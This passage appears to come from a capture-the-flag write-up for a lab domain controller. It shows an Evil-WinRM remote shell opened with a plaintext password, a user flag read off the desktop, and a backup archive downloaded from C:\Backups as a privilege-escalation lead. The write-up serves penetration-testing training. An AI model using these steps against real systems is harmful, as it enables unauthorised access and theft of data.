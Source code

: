 ```
~$ evil-winrm -i dc.puppy.htb -u adam.silver -p 'Ch4ng3Passw0rd@123'    
                                        
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> 
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> dir

    Directory: C:\Users\adam.silver\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---         5/28/2025   1:15 PM             34 user.txt

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> type user.txt
fde97**********************f873e4
```

### ⬆️ Privilege Escalation

<p class="indent-paragraph">
With initial access established through<code>evil-winrm</code> as <span class="blue">adam.silver</span>, our focus shifted to enumeration for potential privilege escalation. Listing the contents of the root directory (<code>C:\</code>), a<code>Backups</code> folder stood out. Navigating into it revealed a single archive:<code>site-backup-2024-12-30.zip</code><span class="codefix">.</span> Using<code>evil-winrm</code>'s<code>download</code> functionality, we retrieved the file locally for further inspection, a promising lead for credential reuse or sensitive configuration leakage.
</p>

```
~$ *Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---         5/29/2025   2:11 PM                Users
d-----         5/13/2025   4:40 PM                Windows

*Evil-WinRM* PS C:\> dir Backups

    Directory: C:\Backups

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
```
